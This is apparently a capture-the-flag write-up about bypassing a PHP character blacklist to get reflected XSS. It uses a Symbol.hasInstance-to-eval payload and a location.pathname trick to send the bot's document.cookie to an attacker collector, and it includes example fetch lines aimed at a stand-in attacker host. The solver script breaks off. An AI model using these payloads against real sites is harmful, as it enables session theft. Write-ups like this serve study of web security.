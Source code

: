 3. Forbidden Character Filtering

4. Output Without Escaping
Finally, the script reaches the echo $digit; line. This sends the raw string `3<non numeric>` directly to the browser.

Server-side blacklist attempted to strip dangerous characters:

```php
$forbidden = ['\\','<','>','`','~','(',')',',','+','-','/','*','^','|','&','!','?',':',';','.'];
```
But it left characters like [], {}, = available.

How the exploit runs despite the blacklist
- JavaScript exposes a hook Symbol.hasInstance that controls instanceof evaluation. When evaluating x instanceof Y, the engine internally calls `Y[Symbol.hasInstance](x)`.
- By assigning `Y[Symbol.hasInstance]` = `eval`, the act of evaluating `"SOMETHING" instanceof Y` will call `eval("SOMETHING")`.
- This technique uses only allowed tokens: [], =, quotes, instanceof, and letters. All of those were permitted by the server’s blacklist.
- Example high-level payload (only allowed chars):
```js
3[o={}] in [o[Symbol['hasInstance']] = eval]["PAYLOAD" instanceof o]
```
- This results in eval("PAYLOAD") being executed inside the internal page context without needing (, ), ., :, or other banned characters.


We needed the internal headless browser (the bot) to issue a request to our attacker host containing document.cookie. Direct fetch('https://attacker/'+document.cookie) in the injected JS was blocked by the blacklist because (, ), :, ., and / are banned. 

location.hash and location.search had suffix behavior (automatic # / ?) that interfered with the string shape we needed.

location.pathname is the best solution

`app:800//**/fetch(' + document.cookie + ')//')`

location.pathname will be `/**/fetch()//` but the path not exist right ?

The internal container used PHP’s built-in server (`CMD php -S 0.0.0.0:8080`). In common PHP dev / single-page app setups the server is arranged so that many or all requests are handled by a front controller (an index.php) or a router script i.e., requests that do not map to a static file end up executing the main application script.

In this environment the bot’s request to an arbitrary path did not produce a simple 404; instead the same index.php(the vulnerable page with the reflected digit) was executed and served. That preserved the JS context that executed our `location.pathname` payload while allowing the path string to be included in the requested URL  which is how the cookie reached our collector.

Practical consequence: even though the path looked “non-existent”, the dev-server / app routing delivered the vulnerable page for that path, and the browser-side pathname trick caused the browser to request the attacker-controlled URL containing the cookie.

When the bot visits http://app:8080/**/fetch('EXFIL_HOST/'+document.cookie)//, the path component carries the cookie payload (encoded inside the path) to the server that the bot requests, enabling exfiltration without needing to write the : or . characters directly inside the digit payload.

### CHAINING THE VULN
REGISTER -> PRIVILEGE ESCALATION -> HTTP SMUGGLE -> REPORT BOT -> XSS -> PROFIT

### SOLVER
```py
from urllib.parse import quote
import requests
req = requests.Session()
HOST = "http://52.77.234.0:50001/"
# HOST = "http://localhost:50001/"
data = {
```